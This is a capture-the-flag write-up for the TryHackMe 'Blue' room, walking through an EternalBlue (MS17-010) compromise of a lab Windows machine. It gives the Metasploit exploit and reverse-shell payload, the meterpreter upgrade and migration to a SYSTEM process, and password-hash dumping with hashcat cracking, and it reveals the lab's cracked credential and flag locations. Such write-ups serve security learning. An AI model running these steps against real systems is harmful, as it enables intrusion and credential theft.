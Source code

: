 ```yaml
---
layout: default
title: Blue
parent: TryHackMe
grand_parent: CTF (writeup)
permalink: /ctf/tryhackme/blue.html
---
```

Windows
{: .label }

EternalBlue
{: .label .label-blue }
Room: [tryhackme.com/room/blue](https://tryhackme.com/room/blue)

## Reconnaissance
First we need to do Reconnaissance.
Just another port scanning :D


``` bash
$ nmap -sV -vv --script vuln TARGET-IP
```

### Task 1 - Question
Port under 1000?
![nmap-port](/images/blue01.jpg)

What is this machine vulnerable to?
![nmap-vuln](/images/blue02.jpg)

___
## Gain Access
1. Start metasploit 
1. Search an exploit for **(ms170-010)**
1. Use the exploit
``` bash
msf> exploit/windows/smb/ms17_010_eternalblue
```
1. Set **RHOSTS** value
1. Set payload
``` bash
set payload windows/x64/shell/reverse_tcp
```
1. Run the exploit & pray :D 
1. If succeed. Background this shell **(CTRL+Z)** 
![blue-session](/images/blue03.jpg)

___
## Escalate
Escalate privileges & upgrade shells in metasploit.
1. Search **shell_to_meterpreter** - Result: **post/multi/manage/shell_to_meterpreter**
1. Use it :D 
1. set session & run (be patient & wait)
<br>(NOTE: If you dont know how, go back & learn to use metasploit :D)
![blue-meterpreter](/images/blue04.jpg)
1. List all of the processes running via thex 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).
![blue-ps](/images/blue05.jpg)
1. Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step.
![blue-migrate](/images/blue06.jpg)

____
## Cracking
Dump the non-default user's password and crack it!

1. Within our elevated meterpreter shell, dump all of the passwords. 
![blue-dump](/images/blue07.jpg)
1. Copy the password hash & crack it.
``` bash 
$ hashcat -a 0 -m 1000 crack.txt /usr/share/wordlists/rockyou.txt
```
Result: **Jon:alqfna22**

___
## Find flags!
### Flag 1
Hint: Can you "C" it? So flag1 is located on C:\

### Flag 2
Hint: I wish I wrote down where I kept my password. Luckily it's still stored here on Windows.
"On Windows" maybe is on \Windows\ ? :V

### Flag 3
This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved. 

Maybe is located on \User\Documents\ ? 



